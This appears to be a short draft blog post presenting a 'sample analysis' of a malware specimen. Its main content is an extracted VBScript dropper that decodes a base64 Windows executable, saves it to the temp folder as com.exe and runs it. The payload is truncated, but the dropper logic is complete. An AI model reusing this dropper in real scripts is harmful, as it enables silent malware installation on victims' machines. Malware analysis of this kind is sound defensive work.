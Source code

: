 ```yaml
---
layout: post
title: DOS-Obfuscation was attempted
published: true
---
```


> Sample Analysis of March


## Testing markdown for post.



Extracted code:
```javascript
Option Explicit
dim D,E,b,p
Set D=CreateObject("Microsoft.XMLDOM")
Set E=D.createElement("t")
E.DataType="bin.base64"
E.Text="TVqQAAMA.........AA="
Set b=CreateObject("ADODB.Stream")
Set p=CreateObject("Scripting.FileSystemObject").GetSpecialFolder(2)
b.Type=1
b.Open
b.Write E.NodeTypedValue
b.SaveToFile p+"\com.exe",2
CreateObject("WScript.Shell").Run p+"\com.exe"
```
-Removed most of base64 to be able to read it clearly

